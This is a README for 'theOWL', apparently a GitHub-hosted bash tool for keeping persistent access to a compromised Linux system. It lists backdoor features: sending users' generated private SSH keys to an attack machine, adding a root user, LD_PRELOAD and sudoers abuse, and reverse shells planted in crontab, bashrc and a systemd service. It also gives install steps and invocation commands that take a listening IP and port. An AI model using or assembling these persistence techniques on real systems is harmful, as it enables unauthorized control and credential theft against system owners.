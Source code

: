 # The OWL [The One-Who-Laughs]

## Overview
The OWL is a bash script designed to help ensure continued access to a target system by performing several actions that enhance access privileges and establish multiple backdoor mechanisms. This tool is intended for educational and research purposes only.

**Disclaimer:** Misuse of this script for illegal activities is prohibited. The author is not responsible for any consequences. Use at your own risk.

## Features
- **SSH Key Generation**: Generates SSH key pairs for all users and sends the private keys to a specified attack machine.
- **SSH Key Obfuscation**: Obfuscates private SSH keys to prevent others from using them.
- **User Creation**: Adds a new user with root privileges.
- **LD_PRELOAD & sudoers configuration**: setup LD_PRELOAD and configures 'find' in sudoers
- **Crontab Backdoor**: Adds crontab entries to establish reverse shells.
- **Bashrc Backdoor**: Edits bashrc files to spawn reverse shells on login.
- **History Tracking**: Keeps a history of actions performed.
- **Reversal of Changes**: Reverts all changes made by the script.


## Installion
1. Clone the repository (or use any other tool like wget):
    ```bash
    git clone https://github.com/sajitha-tj/theOWL.git
    cd theOWL
    ```
2. Make the script executable:
    ```bash
    chmod +x theOWL.sh
    ```
If your target system has no internet connection, you can download the code to your attacking system, host it using a web server (e.g., Python HTTP server), and download it to your target system from there.

## Usage
```sh
./theOWL.sh MODE LISTENING_IP LISTENING_PORT
```
theOWL requires sudo privileges to function properly. It uses userID to check if the current user is root.
You can use the '-P' flag at the end of the command to override this feature. This might be useful with a privileged user account other than root. Anyway, this is not recommended and may cause unexpected errors on the go.\

theOWL operates in two main modes: Auto-mode and Terminal-mode. See examples below for a bettter understanding.


### Terminal-mode
Terminal-mode allows you to selectively execute functions, providing more flexible persistent methods. You can set up different listening ports for different backdoors, ensuring continuous access to the system for a longer time. The following commands can be used in terminal-mode:
```
     Command       | Description
-------------------|-------------------------------------------
   ? / h /help     | display terminal-mode commands
  1 / ssh_key_gen  | generate ssh key pairs for all users
  so / ssh_obfus   | obfuscate ssh keys of all users
   2 / new_user    | add a new user as root
   3 / ld_pre      | setup LD_PRELOAD and 'find' in sudoers
   4 / crontab     | configure crontab 
   5 / bashrc      | edit bashrc files
   6 / systemd     | add a reverse shell as a systemd service
   9 / history     | display history (changes did)
   0 / reverse     | revert all changes back!
   bye / exit      | exit out of the OWL
```

### Auto-mode
Auto-mode is for quick setups. It does not allow customization of listening ports but uses the same port for every backdoor. It is useful when time is limited, ensuring multiple backdoor access methods within seconds. It goes through SSH key generation, obfuscating private SSH keys, adding a new user, setting up shells in crontab and bashrc, and adding a reverse shell as a systemd service. Note that not all functions available in terminal-mode are used here.
```sh
./theOWL.sh a 127.0.0.1 2323
```

## Examples

- Running in Terminal-mode
```sh
./theOWL.sh t 127.0.0.1 2323
```
- Running in Auto-mode
```sh
./theOWL.sh a 127.0.0.1 2323
```
- Running without privilege check
```sh
./theOWL.sh t 127.0.0.1 2323 -P
```

## Notes
- Ensure you have the necessary privileges to run the script, ideally as root.
- The script creates a temporary directory at `/tmp/.owl` for storing temporary files.
- Be cautious while using the script, especially in environments where unauthorized access could have severe consequences.
- **overide reverse function**: When using auto-mode, it will create a file .owl_hst_tmp in the current working directory to store the history. You can use this file later to revert changes made in auto-mode as follows:
```
sudo ./theOWL.sh --force-reverse .owl_hst_tmp
```

### Fun-fact
If you are ever wondering where the name comes from, "The One-Who-Laughs" is one of the many aliases used by the DC Comics villain, the [Batman Who Laughs](https://dc.fandom.com/wiki/Bruce_Wayne_(Earth_-22)). He was a dark and strategic character who always finds a way to stay one step ahead, embodying a sense of omnipresence and relentless control. Much like the Batman Who Laughs, theOWL script ensures continuous access to a target system through multiple backdoors, guaranteeing no single failure can prevent control.

## Contributing
Feel free to fork this repository and submit pull requests for any improvements or additional features. xD
